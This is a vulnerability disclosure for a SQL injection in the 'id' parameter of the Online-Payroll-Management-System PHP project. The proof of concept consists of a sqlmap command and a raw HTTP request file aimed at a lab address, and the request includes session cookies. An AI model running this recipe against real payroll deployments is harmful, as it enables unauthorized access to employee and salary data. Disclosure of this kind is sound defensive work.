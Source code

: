 [description]
 
Online-Payroll-Management-System was discovered to contain a SQL Injection vulnerability via the URI /designation_viewmore.php with parameter name 'id'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Online-Payroll-Management-System,https://github.com/MD-MAFUJUL-HASAN/Online-Payroll-Management-System

 ------------------------------------------

 [Affected Product Code Base]
 
 <=commit a8902bf64575e325f6d6bf93a55f7bd273ec58cd

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="800" alt="图片" src="https://github.com/user-attachments/assets/0541aa64-b1d3-4a3b-8060-611a5d6025e7">
<img width="698" alt="图片" src="https://github.com/user-attachments/assets/150f7ef0-7089-4164-8a5b-7e0b9040703d">





sqlmap:
```
sqlmap -r a.txt -p id --batch --banner --flush-session

```
a.txt
```
GET /designation_viewmore.php?id=1 HTTP/1.1
Host: 192.168.0.183:11182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.183:11182/designation_view.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: i18next=en; Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImU0ZjJhZWJmLWVkMDEtNGM0OC04YjU4LTI3OTFjMzllMzFmMCJ9.0J-cqM7f9-cNNDe8_Q3CAiWkq4iyNqLDbBUh6mnYfRl1Ygv4HPIp3Ky1cbbpN3_4Zr8lYluJ5-nEunFvF84Xyw; sidebarStatus=0; pro_end=-1; ltd_end=-1; serverType=nginx; order=id%20desc; memSize=32012; SESSIONID=5253906e-713a-40e1-9da8-379c12b5fc68.g9MHRcbVBSSnuxBS2kXozqhXoig; request_token=R2jSjrmCm9VN6xmDbAK0n3uK282rC2acIB330unM9N1GRSTD; sites_path=/www/wwwroot; distribution=ubuntu; force=0; load_type=null; uploadSize=1073741824; rank=a; form_proxy=%5Bobject%20Object%5D; backup_path=/www/backup; PHPSESSID=72uq71htklndamdj2mrmj2f9o7; pnull=1; load_page=1; load_search=undefined; vcodesum=13; BatchPaste=null; _ga=GA1.1.2111016145.1721287966; _gid=GA1.1.1011972672.1721287966; Path=/www/wwwroot/Online-Payroll-Management-System.com; _gat=1; _ga_J1DQF09WZC=GS1.1.1721287966.1.1.1721289139.0.0.0
Connection: keep-alive
```
